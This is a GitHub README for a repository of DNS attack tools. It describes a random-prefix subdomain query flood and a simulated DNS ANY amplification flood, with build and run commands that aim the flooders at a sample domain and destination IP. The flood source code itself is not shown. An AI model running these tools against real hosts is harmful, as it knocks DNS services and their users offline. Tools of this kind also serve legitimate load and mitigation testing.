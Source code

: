 # dns-attack-tools

Tools for generating DNS attacks.

## DNS random prefix flood

Floods a destination IP with DNS queries for random prefixed subdomains.

## DNS ANY amplification

Floods a destination IP with DNS ANY responses, simlulating a DNS ANY amplification.

## Setup

```
sudo apt update
sudo apt install git gcc make

git clone https://github.com/cjdoucette/dns-attack-tools.git
cd dns-attack-tools

# Running DNS random prefix flood
cd dns-random  # from dns-attack-tools folder
make
sudo ./dnsflood cf.com 8.31.160.5  # sample domain and destination IP address

# Running DNS ANY amplification
cd dns-any  # from dns-attack-tools folder
sudo systemctl stop systemd-resolved
make
sudo ./dns_any_reply 8.31.160.5  # sample destination IP address
```
